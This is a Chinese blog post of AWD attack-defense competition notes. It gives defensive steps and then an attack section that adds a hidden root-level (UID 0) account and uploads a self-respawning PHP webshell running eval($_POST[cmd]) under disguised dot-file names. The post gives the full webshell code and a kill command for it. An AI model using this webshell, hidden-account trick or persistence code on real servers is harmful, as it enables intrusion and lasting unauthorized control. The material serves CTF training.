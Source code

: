 ```yaml
---
title: 【网络安全5x01】洞明科技网络安全红蓝对抗培训 --- day1
date: 2021-06-22 20:35:08
tags: [网络安全]
---
```


看来这网络安全是没完了，又搞护网、攻防、培训。一群门外汉，搞点小儿科，不知意义有多大。专业的事情交给专业的厂家来做不是更合适吗。

本来去年比赛拿第一之后我已经算是毕业了，我也对这个完全丧失兴趣了。是时候该去找新事物了。

新买了把机械键盘，正好试键盘，敲一点明天AWD的笔记给小伙伴用。

<!-- more -->

# AWD笔记

## 防守

### 1.改密码

``` bash
ssh root@[ip]:[port]   #ssh登录靶机

sudo passwd root       #修改root用户密码
```

### 2.删用户

``` bash
cat /etc/passwd     #看最后一行,
deluser [user]      #有奇怪的用户就删掉

控制面板 - 用户账户 - 删除用户账户   #win系统删用户方法
```

### 3.踢人

``` bash
w                  #显示现在在线的人
ps -ef | grep ssh  #如果有其它用户或者ip，就找到这个进程的[pid]
kill -9 [pid]      #杀掉进程
```

### 4.备份网站

使用ftp下载`/var/www/html/`目录到本地，然后启动**cnseay**工具扫网站漏洞后门。

### 5.修漏洞

`ma.php`这种预先放在目录下的后门，直接从ftp删除即可，其它的根据扫完情况再说。


## 攻击

### 1.登对方靶机

如果密码公开，抢先登录对方靶机，添加用户`config`：

``` bash
adduser config
#密码随便输两遍，其它全部回车
```

使用vim修改用户组为0：

``` bash
vi /etc/passwd
```
修改前`config:x:1001:1002:,,,:/home/config:/bin/bash`

修改后`config:x:0:1002:,,,:/home/config:/bin/bash`

### 2.连接对方预先放置的后门

地址：http://[ip]:[port]/ma.php

密码：cmd

连上去赶紧传不死马，`/var/www/html/`下各个目录随便传，越多越好。名字也要做好隐蔽,我一般常用`.config.php`，`.index.php`，`.struct.php`等等这种，前面加`.`表示隐藏。

不死马是指一个不停生成木马后门的木马，一旦执行，删文件没有用，必须要删进程才行。

这货长这样：

``` php
<?php

set_time_limit(0);

ignore_user_abort(true);

$file = '.config.php';

$shell = '<?php eval($_POST[cmd])?>';

while(true){

file_put_contents($file, $shell);

system('chmod 777 .config.php');

usleep(50);

}

?>
```
万一对手也会玩了，那就执行这个文件这样杀：

``` php
<?php

#@unlink('config.php');

exec("ps aux|grep www-data|grep -v grep|awk '{print $2}'|xargs kill -9");

?>
```

### 3.随意玩了

有且不只有后台弱口令、sql注入、文件包含、文件上传、命令执行、xss等漏洞，这个根据扫出来的情况随意玩了

不过其实种好不死马，就已经可以稳定获取flag了